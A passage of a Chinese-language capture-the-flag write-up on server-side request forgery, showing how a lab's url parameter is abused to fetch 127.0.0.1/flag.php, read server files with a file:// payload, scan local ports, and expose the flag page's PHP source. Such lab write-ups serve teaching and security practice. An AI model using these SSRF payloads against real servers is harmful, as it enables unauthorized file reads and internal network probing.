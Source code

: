 那么我们构造 http://127.0.0.1/flag.php

即可获得flag

## 伪协议读取文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/6c160a2c93e1f5b2d1767cd2ba28f949.png" alt="" style="max-height:192px; box-sizing:content-box;" />


```cobol
/?url=file:///var/www/html/flag.php
```

## 端口扫描

因为ssrf可以对内网进行端口探测 就是可以对127.0.0.1 进行探测

所以我们直接开始扫





<img src="https://i-blog.csdnimg.cn/blog_migrate/24a1125af37197cceddaadf244fb7394.png" alt="" style="max-height:564px; box-sizing:content-box;" />


## POST请求

这里提示我们了

我们依然 通过file 伪协议去看看 flag.php

```cobol
GET /?url=file:///var/www/html/flag.php HTTP/1.1
```

```cobol
<?php
 
error_reporting(0);
 
if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}
 
$flag=getenv("CTFHUB");
$key = md5($flag);
 
if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>
 
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>
```
